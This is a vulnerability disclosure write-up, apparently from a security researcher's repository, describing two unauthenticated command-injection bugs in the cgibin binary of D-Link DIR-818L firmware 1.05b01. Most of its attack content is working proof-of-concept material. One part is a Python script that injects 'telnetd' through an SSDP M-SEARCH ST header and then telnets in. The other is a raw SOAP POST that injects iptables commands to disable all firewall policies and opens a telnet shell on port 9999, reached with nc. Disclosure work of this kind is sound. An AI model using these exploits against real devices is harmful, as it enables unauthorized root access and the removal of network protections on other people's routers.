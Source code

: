 # one
# Firmware:
DIR818L_FW105b01 A1:
# Detail:
Command execution exists in the cgibin binary
The ssdpcgi_main function has a command execution vulnerability caused by unfiltered parameters

![O)MM35GBCV_NA`DN}BHG)OB](https://user-images.githubusercontent.com/84966968/178105747-1dc9b8cc-6b03-48d4-bee0-f3c51414cc2c.png)

![KKMPAI5U05DZM145}(43`RU](https://user-images.githubusercontent.com/84966968/178105767-a5f75f13-cb88-4962-a31d-3feb8c7dc778.png)

lxmldbc_system：

![2O$$QJZ%6M@FEJUSVEU(7AF](https://user-images.githubusercontent.com/84966968/178105811-1e9c87dd-0b46-466c-a182-626da2fcff28.png)

You can see that the environment variables are concatenated directly into the system command without filtering
# poc：
```
import sys
import os
import socket
from time import sleep
def config_payload(ip, port):
    header = "M-SEARCH * HTTP/1.1\n"
    header += "HOST:"+str(ip)+":"+str(port)+"\n"
    header += "ST:urn:device:1;telnetd\n"
    header += "MX:2\n"
    header += 'MAN:"ssdp:discover"'+"\n\n"
    return header
def send_conexion(ip, port, payload):
    sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
    sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
    sock.sendto(payload,(ip, port))
    sock.close()
if __name__== "__main__":
    ip = raw_input("Router IP: ")
    port = 1900

headers = config_payload(ip, port)
send_conexion(ip, port, headers)
sleep(5)
os.system('telnet ' + str(ip))
```
![0SOP(3D2535@D%$S4@UNTUP](https://user-images.githubusercontent.com/84966968/178105914-f00d0cdf-c38c-4e3c-9059-bd30cd36bf89.png)

I looked it up online and it looks like it's been there for a long time
# two
# Firmware:
DIR818L_FW105b01 A1:
# Detail:
Command execution exists in the cgibin binary
I found unauthenticated remote code execution vulnerability in function of binary.soapcgi_main

![WVG2G2 4{ZPVDJT H63_1GU](https://user-images.githubusercontent.com/84966968/178108334-f4b1b466-b613-4de8-901c-1cd9179e141a.png)

![HF@CU3E9~8YDFE3N 353GVQ](https://user-images.githubusercontent.com/84966968/178108325-989782f0-6e15-48d0-9432-97d9a5d33203.png)

Unfiltered functions result in being spliced into the system command
# poc:
```
#nc 192.168.0.1 49512

POST /soap.cgi?service=whatever-control;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -t nat -P PREROUTING ACCEPT;iptables -t nat -P OUTPUT ACCEPT;iptables -t nat -P POSTROUTING ACCEPT;telnetd -p 9999;whatever-invalid-shell HTTP/1.1
Host: 192.168.100.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

```
We can see that port 9999 is opened

![6D2PDT$5JB Y)73YUU8PI)T](https://user-images.githubusercontent.com/84966968/178108466-7ed253de-518f-4ce6-b94b-a691381cc2c4.png)

```
nc 192.168.0.1 9999
```
![5%EK6 ~$P)UO}`4OT5HP2LR](https://user-images.githubusercontent.com/84966968/178108485-09ffc0fa-b8d5-4d45-b7f8-776922f1136a.png)

This bug is also a bug that has appeared in other versions

